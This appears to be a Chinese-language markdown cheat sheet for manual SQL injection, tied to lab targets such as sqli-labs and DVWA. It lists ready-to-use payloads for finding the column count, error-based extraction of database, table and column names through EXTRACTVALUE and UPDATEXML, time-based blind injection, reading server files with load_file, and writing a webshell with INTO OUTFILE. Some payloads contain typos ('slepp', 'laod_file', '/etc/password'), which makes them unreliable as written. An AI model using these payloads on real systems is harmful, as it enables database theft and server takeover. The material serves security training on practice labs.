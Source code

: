 ## 手工注入

有的时候自动化会被禁止使用，比如一些删除和插入，会导致数据库被破坏。

## 常用的 playload

以下为常见的技巧，但是每次注入的技巧都不太一样，基本的技巧具体查看示例[sqli-libs](./sqli-libs.md)

### 常见的注入点

- GET/POST/PUT/DELETE 参数
- [X-Forwarded-For 请求协议头](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)
- 文件名

## 判断字段数目

```sql
?id=1' order by 4--+
```

判断字段数目,`?id=1' order by 1 --+ `此时页面正常，
继续换更大的数字测试`?id=1' order by 10 --+` 此时页面返回错误，
更换小的数字测试`?id=1' order by 5 --+ `此时页面依然报错，
继续缩小数值测试`?id=1' order by 3 --+ `此时页面返回正常，
更换大的数字测试`?id=1' order by 4 --+` 此时页面返回错误，3 正常，4 错误，说明字段数目就是 3

## 基于报错的注入

通过 id=-1 一个负数不存在的 id 值来触发报错，基于报错来的信息来对 sql 语句进行修改，进而达到目的。

```sql
id=-1' UNION SELECT 1,2,3 --+
```

通过 or 1=1 语句来触发报错

```sql
id=1' or 1=1 UNION SELECT 1,2,3 --+
```

## XPath 相关

[XPath](https://www.w3school.com.cn/xpath/index.asp)

### UPDATEXML

`UPDATEXML()` 是 MySQL 的一个非常有用的函数，它可以让你修改 XML 数据，并将结果作为更新后的 XML 字符串返回。

下面是 `UPDATEXML()` 的基本语法：

```markdown
UPDATEXML(xml_target, xpath_expr, new_xml)
```

参数说明：

- `xml_target` ： 是需要被修改的 XML 字符串。
- `xpath_expr` ： 是 XPath 表达式，用于定位 `xml_target` 中需要被修改的部分。
- `new_xml` ： 是将要替换 `xpath_expr` 定位到的部分的新 XML 字符串。

<details>
<summary>UPDATEXML使用示例</summary>

例如，我们有这样的一个 XML 字符串，想要修改`<url>`的值：

```markdown
<website>
   <name>MySQL Tutorial</name>
   <url>http://www.mysqltutorial.org/</url>
</website>
```

你可以使用以下 `UPDATEXML()` 函数完成此目标：

```sql
SELECT
    UpdateXML('<website><name>MySQL Tutorial</name><url>http://www.mysqltutorial.org/</url></website>',
              '/website/url',
              '<url>http://www.mysqltutorial.com</url>')
```

注意，如果 `xpath_expr` 在 `xml_target` 中定位到多个部分，`UPDATEXML()` 会将所有定位到的部分都替换为 `new_xml`。

</details>

通常是利用了 UPDATEXML() 函数遇到错误时的行为，具体来讲就是当这个函数的第二个参数，即 XPath 表达式无法定位到有效的内容时，UPDATEXML() 函数会返回一个错误，并且这个错误信息中会包含原始的 XPath 表达式。

例如，`select * from test where ide = 1 and (UPDATEXML(1,0x7e,3))`; 由于 0x7e 是~，不属于 xpath 语法格式，因此报出 xpath 语法错误。

### EXTRACTVALUE

`extractvalue` 函数在 MySQL 中是一个 XML 函数，用于从 XML 类型的数据中提取值。

使用语法：

```sql
extractvalue(目标xml文档，xml路径)
```

我们可以操作的是第二个参数，示例如下：

例如，从数据库中获取当前数据库名称：

```sql
1' and extractvalue(1, concat(0x7e,database(),0x7e)) --+
```

获取所有表的名称：

```sql
1' and extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```
获取某个特定表中的列名：

```sql
1' and extractvalue(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='<table_name>'),0x7e)) --+
```

获取某个特定列中的数据：

```sql
1' and extractvalue(1, concat(0x7e,(select group_concat(<column_name>) from <table_name>),0x7e)) --+
```

## 基于时间的盲注

```sql
1' and slepp(5) --+
--+ select first_name, last_name from dvwa.users where user_id='1' and sleep(5) --'
```

如果等 5 秒之后有回显，则代表有漏洞。

## 读取文件

```sql
=1' and 1=2 union select laod_file('/etc/password') #
```

## 文件写入

文件写入配合菜刀提权。

```sql
=1 and 1=2 union select '菜刀木马内容' into outfile '文件目录+文件名'
```
